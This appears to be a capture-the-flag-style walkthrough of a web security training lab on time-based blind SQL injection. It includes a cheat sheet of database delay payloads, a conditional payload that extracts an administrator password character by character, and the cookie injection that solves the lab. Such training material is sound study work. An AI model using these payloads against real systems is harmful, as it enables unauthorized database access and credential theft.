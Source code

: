 # Blind SQL injection with time delays

# Review

In some of the preceding examples, we've seen how you can exploit the way applications fail to properly handle database errors. But what if the application catches these errors and handles them gracefully? Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of a SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

### Cheat sheet

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle | dbms_pipe.receive_message(('a'),10) |
| --- | --- |
| Microsoft | WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT pg_sleep(10) |
| MySQL | SELECT SLEEP(10) |

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| --- | --- |
| Microsoft | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END |
| MySQL | SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') |

# Lab instruction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

# Lab Walkthrough

**Original Request**

```
GET /login HTTP/2
Host: 0a66006e04bb5ae58084584b00780080.web-security-academy.net
Cookie: TrackingId=odZhPDYp8lQabJdv; session=BZAIdBQVFpOY3KYTJbtxSPmj3UWtIvKz
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a66006e04bb5ae58084584b00780080.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

********************Original Response********************

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3128

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Blind SQL injection with time delays</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Blind SQL injection with time delays</h2>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/blind/lab-time-delays'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="iMyKOQMvyN4mZFfTwTcfZ0wu7M2X9p3x">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

Delete the original `TrackingId` and replace it with another string such as

```
Cookie: TrackingId=none
```

Then add the query to delay the response

```
Cookie: TrackingId=none' || pg_sleep(10)--
```